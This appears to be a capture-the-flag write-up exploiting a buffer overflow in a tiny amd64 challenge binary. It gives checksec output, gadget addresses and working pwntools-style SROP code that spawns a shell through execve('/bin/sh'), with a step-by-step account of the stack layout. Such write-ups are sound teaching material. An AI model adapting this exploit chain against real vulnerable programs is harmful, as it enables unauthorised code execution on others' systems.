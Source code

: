 # Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x42000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

As we can see, we can do something there!

The program has no interface, so we head into the disassembly right away.

### Disassembly

Starting with `_start()`:

![image](https://github.com/user-attachments/assets/38bc394c-4df5-4510-98a1-821a9ac64cb2)

![image](https://github.com/user-attachments/assets/f1b71c35-c417-4886-8d7d-c9c2c2ab5d9a)

That's the whole binary, we see there is a huge buffer overflow that `rdx` reads up to `0x106 = 262` bytes by read syscall. And we can modify return address if we send enough bytes to override. First of all, we need to find a possible gadget and `/bin/sh` address.

![image](https://github.com/user-attachments/assets/618d8c46-cbd1-4c37-987e-bf7fc383a72f)


Now that we have this, we can craft the `SROP` chain.
We want to execute system("/bin/sh") but in assembly language it is execve("/bin/sh", argument, env ) function.
![image](https://github.com/user-attachments/assets/b9f3ec88-7915-49f1-88b1-25aac79cd63e)

```python
# Srop
POP_RAX =0x0043018
SYSCALL_RET=0x043015
BINSH = 0x43238
```

After crafting the `frame`, we send the payload to trigger the vulnerability and get shell.

```python
payload = b'a'*0x8  # 8 bytes override for save rbp
payload += p64(POP_RAX)
payload += p64(0xf)  # syscall number for rt_sigreturn(), search for linux syscall table
payload += p64(SYSCALL_RET)

frame = SigreturnFrame()
frame.rax = 0x3b           # syscall number for execve() function, u can search linux syscall table
frame.rdi = BINSH          
frame.rsi = 0x0             
frame.rdx = 0x0 
frame.rip = SYSCALL_RET   

payload += bytes(frame)
```
# Why I created like this. We should know how the stack allocate data.

[filler | rop.rax[0] | 0xf | rop.syscall[0] | Sigreturn Frame]

When SYS_read reads the payload onto the stack (at RSP - 8), the stack looks like this:
```
RSP-8: "aaaaaaaa"
RSP: rop.rax[0]
RSP+8: 0xf
RSP+16: rop.syscall[0]
RSP+24: [Sigreturn Frame]
```
The ret instruction jumps to the value at RSP now is RAX

Gadget pop rax; ret:

pop rax: Get 0xf from RSP+8 and allocate it to RAX.

ret: Skip to rop.syscall[0] at RSP+16.

The syscall gadget (at rop.syscall[0]) calls SYS_rt_sigreturn because RAX = 0xf now.
Why is this needed?

SYS_rt_sigreturn requires RAX = 0xf and needs a way to put this value into RAX. The pop rax utility; ret is the only tool in the program that is allowed to do that.
After RAX = 0xf, we need to call the syscall to execute. So this ROP string is the "start" step to move to the next stage.

Thinking: The ROP chain is like a "bridge" from the initial state of the program (after SYS_read) to the SROP mechanism.
# Sigreturn Frame Section - "Execute the final goal"

Goal: Provide a frame signal to the kernel to read when SYS_rt_sigreturn is called, from which registers are set to call execve("/bin/sh", NULL, NULL).

When SYS_rt_sigreturn is called (from the utility syscall in stage 1), the kernel checks the stack at location RSP for the Sigreturn Frame.

At this point, RSP points to RSP+24 (byte(frame) section), which contains the values:
RAX = 0x3b (execve syscall number).
RDI = binsh (pointer to /bin/sh).
RSI = 0x0 (NULL).
RDX = 0x0 (NULL).
RIP = rop.syscall[0] (return utility syscall).

The kernel "restores" these registers and jumps to rop.syscall[0].
The utility syscall is called again, but now RAX = 0x3b, so it executes execve("/bin/sh", NULL, NULL).

Why is this part needed?
SYS_rt_sigreturn doesn't know that we want to call execve. We have to provide a frame signal to "tell" the kernel: "Set the registers like this and jump here".

This is the only way to control multiple registers at once (RAX, RDI, RSI, RDX, RIP) without needing a longer ROP chain (which is hard to find in a small binary like this).

Running solver remotely at IP port

### Result


![image](https://github.com/user-attachments/assets/1cfc6b67-e5b1-42c0-8116-027ec9c7467d)

